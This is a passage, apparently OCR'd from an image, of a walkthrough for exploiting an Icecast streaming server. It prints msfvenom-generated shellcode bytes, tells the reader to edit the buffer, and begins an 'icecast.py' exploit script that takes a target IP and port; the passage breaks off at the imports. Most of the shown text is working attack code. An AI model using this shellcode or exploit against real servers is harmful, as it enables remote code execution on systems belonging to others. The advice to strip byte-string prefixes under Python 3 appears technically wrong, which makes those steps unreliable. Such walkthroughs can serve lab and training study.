 buf += b"\x15\xfe\x26\xfb\xb1\x5a\xfc\x62\xe0\x06\x53\x9a\xf2"
buf += b"\xe8\x0c\x3e\x79\x04\x58\x33\x20\x41\xad\x7e\xda\x91"
buf += b"\xb9\x09\xa9\xa3\x66\xa2\x25\x88\xef\x6c\xb2\xef\xc5"
buf += b"\xc9\x2c\x0e\xe6\x29\x65\xd5\xb2\x79\x1d\xfc\xba\x11"
buf += b"\xdd\x01\x6f\xb5\x8d\xad\xc0\x76\x7d\x0e\xb1\x1e\x97"
buf += b"\x81\xee\x3f\x98\x4b\x87\xaa\x63\x1c\xa2\x2e\x79\xe4"
buf += b"\xda\x2c\x7d\x15\xbf\xb8\x9b\x7f\xaf\xec\x34\xe8\x56"
buf += b"\xb5\xce\x89\x97\x63\xab\x8a\x1c\x80\x4c\x44\xd5\xed"
buf += b"\x5e\x31\x15\xb8\x3c\x94\x2a\x16\x28\x7a\xb8\xfd\xa8"
buf += b"\xf5\xa1\xa9\xff\x52\x17\xa0\x95\x4e\x0e\x1a\x8b\x92"
buf += b"\xd6\x65\x0f\x49\x2b\x6b\x8e\x1c\x17\x4f\x80\xd8\x98"
buf += b"\xcb\xf4\xb4\xce\x85\xa2\x72\xb9\x67\x1c\x2d\x16\x2e"
buf += b"\xc8\xa8\x54\xf1\x8e\xb4\xb0\x87\x6e\x04\x6d\xde\x91"
buf += b"\xa9\xf9\xd6\xea\xd7\x99\x19\x21\x5c\xa9\x53\x6b\xf5"
buf += b"\x22\x3a\xfe\x47\x2f\xbd\xd5\x84\x56\x3e\xdf\x74\xad"
buf += b"\x5e\xaa\x71\xe9\xd8\x47\x08\x62\x8d\x67\xbf\x83\x84"
```

Now in order for this exploit to work properly we need to remove all the 'b' characters at the start of each shellcode section.
So this:
```
buf =  b""
buf += b"\xb8\x24\x7b\xaa\x27\xd9\xca\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x52\x83\xc3\x04\x31\x43\x0e\x03\x67\x75\x48"
```

Would become this:
```
buf =  ""
buf += "\xb8\x24\x7b\xaa\x27\xd9\xca\xd9\x74\x24\xf4\x5b\x33"
buf += "\xc9\xb1\x52\x83\xc3\x04\x31\x43\x0e\x03\x67\x75\x48"
```


Now we edit the icecast.py code with out shellcode. The final file in this case would look like this:
```
#!/usr/bin/env python3
##############################################################################################
# How to use:
# 1. Replace 'buf' shellcode below with msfvenom shellcode
# 2. Call it like this: ./icecast.py <target> <port>
# Eg. root@Kali:~# ./icecast.py 192.168.92.133 8000
##############################################################################################
import socket
import sys
